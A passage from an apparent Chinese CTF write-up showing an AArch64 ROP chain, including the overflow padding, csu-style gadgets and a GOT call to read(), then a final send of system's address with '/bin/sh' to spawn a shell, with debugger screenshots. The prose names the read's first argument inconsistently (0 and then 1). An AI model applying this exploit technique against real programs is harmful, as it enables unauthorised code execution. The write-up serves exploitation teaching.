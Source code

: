 获取了 libc 基址后，我们就可以布置`read(0,bss+0x100,0x20)`​来送入 shellcode

```plain
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #g1: x29   x30
pl+= p64(0) + p64(1) #g1: x19 --0   x20 --1
pl+= p64(elf.got['read']) + p64(0) #g1: x21 --addr  x22 --x0
pl+= p64(bss1) + p64(0x20) #g1: x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
```

pl 送入

[![](assets/1700442742-296520e10233ca3f9cbf97a892896473.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183806-648c299a-8535-1.png)

g1 执行完

[![](assets/1700442742-7a737a1d22902f01db0ec0a0ffa60e77.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183809-66493750-8535-1.png)

g2 执行完

[![](assets/1700442742-141085cb7b4e81635147db8fc17b6c14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183812-6896fcae-8535-1.png)

布置好了`read(1,bss+0x100,0x20)`​后，将 shellcode 送入

```plain
pause()
p.sendline(p64(system)+b'/bin/sh\x00')
```
